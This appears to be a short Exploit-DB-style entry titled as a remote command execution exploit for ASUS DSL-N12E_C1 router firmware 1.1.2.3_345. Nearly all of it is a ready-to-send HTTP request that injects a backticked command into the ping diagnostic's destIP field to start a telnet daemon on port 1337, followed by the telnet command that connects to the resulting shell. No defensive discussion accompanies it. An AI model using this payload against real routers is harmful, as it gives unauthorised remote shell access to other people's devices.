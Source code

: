 Exploit Title: ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution<br>
Date: 2018-08-02<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.asus.com/<br>
Software Link: https://www.asus.com/Networking/DSLN12E_C1/HelpDesk_BIOS/<br>
Version: 1.1.2.3_345<br>
Tested on: 1.1.2.3_345<br>

GET /Main_Analysis_Content.asp?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&next_host=www.target.com&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&applyFlag=1&preferred_lang=EN&firmver=1.1.2.3_345-g987b580&cmdMethod=ping&destIP=%60utelnetd+-p+1337%60&pingCNT=5 HTTP/1.1<br>
Host: www.target.com<br>
Connection: keep-alive<br>
Pragma: no-cache<br>
Cache-Control: no-cache<br>
Upgrade-Insecure-Requests: 1<br>
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8<br>
Referer: http://www.target.com/Main_Analysis_Content.asp<br>
Accept-Encoding: gzip, deflate<br>
Accept-Language: en-US,en;q=0.9<br>

To connect<br>
1. telnet www.target.com 1337